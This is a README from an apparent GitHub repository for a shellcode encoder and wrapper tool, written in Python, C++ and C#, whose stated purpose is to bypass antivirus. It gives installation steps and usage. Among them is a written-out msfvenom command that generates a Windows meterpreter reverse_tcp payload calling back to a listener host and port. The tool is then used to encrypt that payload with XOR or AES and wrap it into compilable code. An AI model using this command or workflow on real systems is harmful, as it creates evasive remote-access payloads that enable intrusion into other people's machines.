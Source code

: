 Shellcode wrapper written in Python and C++ to bypass antivirus
============

> `@hackinAggie`
> NOTE: Credits to the original at https://github.com/yashmundra/Shellcode-Encryption/tree/master
>
> I simply fixed the path for the `shellcode_encoder.py` script to be able to output **CSHARP** payloads in python3, and added the `pycryptodome` requirement. I also gutted the CPP and Python templates to save space.

The technique uses two kind of code file:

1. The shellcode encoder/encrypter: `shellcode_encoder.py`
2. Various shellcode wrapper, in C++, C# and Python:
	- `encryptedShellcodeWrapper.cpp` - for now supports **only** XOR encryption
	- `encryptedShellcodeWrapper.cs` - supports both XOR and AES encryption
	- `encryptedShellcodeWrapper.py` - supports both XOR and AES encryption

Installation
----------------------
Installation is straight forward:
* Git clone this repository: 
* cd into the folder
* Install requirements using `pip install -r requirements.txt`
* Give the execution rights to the main script: `chmod +x shellcode_encoder.py`

Usage
----------------------
First, you need to obtain a usable shellcode from metasploit (*run it from a Kali distribution*), so something like:
```
root@kali:~# msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=192.168.52.130 LPORT=4444 -f raw > shellcode.raw
```

Second, run the `shellcode_encoder.py` script along with the desired arguments:
  - raw shellcode filename
  - encryption key
  - encryption type: `xor` or `aes`
  - desired output: `base64`, `cpp`, `csharp`, `python`

This will generate C#, C++ and Python code file in the `result` folder. Those files are ready to use/compile.
